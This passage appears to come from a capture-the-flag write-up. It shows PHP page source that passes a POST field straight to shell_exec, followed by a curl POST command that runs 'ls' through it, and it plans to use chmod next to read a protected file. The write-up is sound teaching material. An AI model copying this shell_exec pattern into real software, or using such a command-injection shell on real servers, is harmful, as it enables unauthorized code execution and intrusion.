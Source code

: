 ```html
<center> User Search </center>
<form method="POST">
    <input type="text" name="comm" placeholder="Search users" class="center2">
    <button class="center3">Search</button>
</form>
<?php
    if(isset($_POST['comm']))
    {
        $cmd = $_POST['comm'];
        echo "<center>";
        echo shell_exec($cmd);
        echo"</center>";
    }
?>
</body>
</html>
```
Notice it execute as command with the parameter `comm`

And saw a `readme9213.txt` file owned by www-data:
```
seis@svos:/var/www/html/shellcmsdashboard$ ls -la
total 24
drwxrwxrwx 2 root     root 4096 Oct 18 15:02 .
drwxr-xr-x 5 root     root 4096 Oct  8 17:51 ..
-rwxrwxrwx 1 root     root 1459 Oct  1 17:57 aabbzzee.php
-rwxrwxrwx 1 root     root 1546 Oct 18 15:02 index.php
--wx-wx-wx 1 www-data root   48 Oct  8 17:54 readme9213.txt
-rwxrwxrwx 1 root     root   58 Oct  1 17:37 robots.txt
```
Therefore we need to use the webpage to execute command to change user permission of that file

I use the `curl` command to make POST request:
```bash
curl localhost/shellcmsdashboard/aabbzzee.php --data "comm=ls"
```
```html
<html>

<head>
<title> Admin Dashboard </title>
...
...
<center>aabbzzee.php
index.php
readme9213.txt
robots.txt
</center></body>
</html>
```
Looks like we have command execution!

We can use `chmod` command to change the file permission become readable by all user
